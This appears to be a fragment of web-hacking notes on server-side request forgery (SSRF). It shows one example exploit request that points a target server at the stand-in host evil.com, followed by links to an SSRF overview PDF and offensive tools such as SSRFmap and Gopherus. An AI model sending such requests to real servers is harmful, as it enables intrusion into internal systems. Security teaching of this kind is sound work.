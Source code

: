Below is an example of the exploit request:

```html
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
![ssrf-3](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/c3486635-b964-49c8-8882-300a75e0931b)



# SSRF at a glance
[SSRF (Server-Side Request Forgery ).pdf](https://github.com/Mehdi0x90/Web_Hacking/files/12438160/SSRF.Server-Side.Request.Forgery.pdf)


# Tools

* https://github.com/swisskyrepo/SSRFmap
* https://github.com/tarunkant/Gopherus
* https://github.com/qtc-de/remote-method-guesser
































